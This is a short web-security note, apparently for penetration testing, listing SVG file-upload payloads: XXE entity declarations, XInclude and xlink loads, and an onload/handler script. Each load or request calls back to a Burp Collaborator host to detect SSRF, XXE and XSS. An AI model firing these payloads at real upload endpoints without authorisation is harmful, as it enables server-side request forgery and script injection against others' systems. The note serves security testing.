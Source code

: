 ```yaml
---
layout: note
title: "File Upload Exploits"
category: Web security
tag: [Web security, Note]
---
```


# File Upload Exploits

## SVG

Beware that SVGs can be imported from many other formats!

Remember to include namespaces:  
```xml
<svg width="255px" height="255px" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude"
  xmlns:xlink="http://www.w3.org/1999/xlink" xmlns:xhtml="http://www.w3.org/1999/xhtml"  version="1.1">
</svg>
```

### Testing guide

#### Check for XXE
```javascript
<!DOCTYPE svg [ <!ENTITY ext PUBLIC "http://burpcollaborator.net/"> ]>
```
```javascript
<!DOCTYPE svg [
  <!ENTITY % init SYSTEM "data://text/plain;base64,aHR0cDovL2l4anBvYXo3YXZnZTVhN3g0ZmYxaTZ5anZhMTFwcS5idXJwY29sbGFib3JhdG9yLm5ldC8=">
%init; ]>
```

#### Check for XInclude attacks
```xml
<xi:include parse="text" href="htpp://burpcollaborator.net/"/>
```

#### Test wether the server will try to load xlinked hrefs:
```xml
<image href="http://burpcollaborator.net/" height="55" width="55"/>
```
If this works it might be of interest to check whether you could at least display some html:
```xml
<foreignObject x="20" y="20" width="160" height="160">
  <div xmlns="http://www.w3.org/1999/xhtml">
    Lorem ipsum dolor sit amet, consectetur adipiscing elit.
    Sed mollis mollis mi ut ultricies. Nullam magna ipsum,
    porta vel dui convallis, rutrum imperdiet eros. Aliquam
    erat volutpat.
  </div>
</foreignObject> -->
```
And other ways to display text:
```xml
<tref xlink:href="http://burpcollaborator.net/text.txt"/>
```

#### Test for javascript execution
```xml
<handler xmlns:ev="http://www.w3.org/2001/xml­-events" ev:event="load">
  var xhr = new XMLHttpRequest(); xhr.open("GET", "http://burpcollaborator.net/"); xhr.send();
</handler>
```
```xml
<circle cx="50" cy="50" r="45" fill="green" id="foo"
  onload="document.getElementById('foo').setAttribute('fill', 'blue');"/>
```

### Attack surface
- **SSRF**
- **XSS** on the behalf of the server - might exist a better terminology for this
- **XXE**

### Resources
[Blackhat old exploits for browsers](https://www.blackhat.com/docs/us-14/materials/us-14-DeGraaf-SVG-Exploiting-Browsers-Without-Image-Parsing-Bugs.pdf)  
[Fingerprinting libraries with blind SVG XLINK SSRF](https://medium.com/@arbazhussain/svg-xlink-ssrf-fingerprinting-libraries-version-450ebecc2f3c)
